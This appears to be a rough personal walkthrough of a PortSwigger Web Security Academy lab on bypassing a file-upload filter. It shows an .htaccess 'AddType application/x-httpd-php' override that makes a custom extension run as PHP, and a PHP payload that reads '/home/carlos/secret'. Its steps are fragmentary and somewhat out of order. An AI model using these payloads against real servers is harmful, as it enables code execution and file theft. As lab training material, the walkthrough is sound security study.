 Upload file _successfully_ via site upload functionality
(https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/my-account/avatar)

_test_ image upload url:
(https://0aa500b80367987681ca710f007f0010.web-security-academy.net/files/avatars/work1.jpg)
Go to file _location_ ( right click thumbnail and choose '_open image_ in new window')
(https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)
error message:

```php
Sorry, "php files are not allowed" Sorry, there was an error uploading your file.
 'response:HTTP/2 403 Forbidden'
```

How to _add an AddType to an apache server_: =>(https://stackoverflow.com/questions/56702288/how-to-find-the-path-of-apache-config-file)

find:

```php
'AddType application/x-font-otf'

```

skeleton:

2. **AddType**

```php
'{php mimetype} {.new extention}'
```

3. **create _new_ extention: =>**

```php
'AddType {php mimetype} .z0z'
```

4. **find php _mimetype_ in:** => (https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types)
5. **change** _{php mimetype}_ to: =>

```php
 'AddType application/x-httpd-php .z0z'
```

**last payload!!!**

```php
'AddType application/x-httpd-php .z0z'
```

6. **Go to _apache-configuration-folder_: =>** (https://www.howtogeek.com/devops/how-to-find-your-apache-configuration-folder/)
   and _find_ `.htaccess`

7.** change this _old_ payload _to new_ payload in _Burp_:**

```php
'<?php echo file_get_contents('/home/carlos/secret'); ?>'

```
